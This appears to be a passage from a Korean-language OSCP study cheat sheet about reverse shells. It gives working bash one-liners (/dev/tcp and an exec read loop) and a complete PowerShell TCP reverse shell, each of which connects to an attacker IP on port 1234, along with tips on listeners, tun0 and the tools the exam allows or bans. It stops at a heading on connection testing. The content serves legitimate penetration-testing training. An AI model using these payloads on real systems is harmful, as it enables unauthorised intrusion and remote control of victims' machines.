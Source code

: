 
## ⚠️ 주의사항

1. **IP 주소를 실제 공격자 머신 IP로 변경** 필수
2. **리스너를 먼저 실행**한 후 타겟에서 연결 시도
3. **방화벽/NAT 환경**에서는 포트 포워딩 필요할 수 있음
4. **VPN 사용시 tun0 인터페이스 IP** 사용
5. OSCP 시험에서는 **수동 실행만 허용**되므로 자동화 금지

### 🔗 Bash

```bash
# 방법 1: /dev/tcp 사용
bash -i >& /dev/tcp/10.8.136.212/1234 0>&1

# 방법 2: exec 사용
exec 5<>/dev/tcp/10.8.136.212/1234;cat <&5|while read line;do $line 2>&5 >&5;done
```

### 🌊 PowerShell (Windows)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.8.136.212",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

---

## 🎯 OSCP 허용 범위 내 방법들

### 수동 실행 가능한 도구들:

1. **Python** - 대부분 설치되어 있음
2. **Bash** - 기본 쉘
3. **Perl** - 많은 시스템에 기본 설치
4. **Netcat** - 네트워크 도구
5. **PHP** - 웹 서버 환경에서
6. **Ruby** - 일부 시스템에 설치됨

### 🚫 OSCP에서 금지되는 것들:

- **Meterpreter** 사용
- **자동화된 익스플로잇 도구**
- **GUI 기반 도구**

---

## 🔧 연결 테스트 및 디버깅
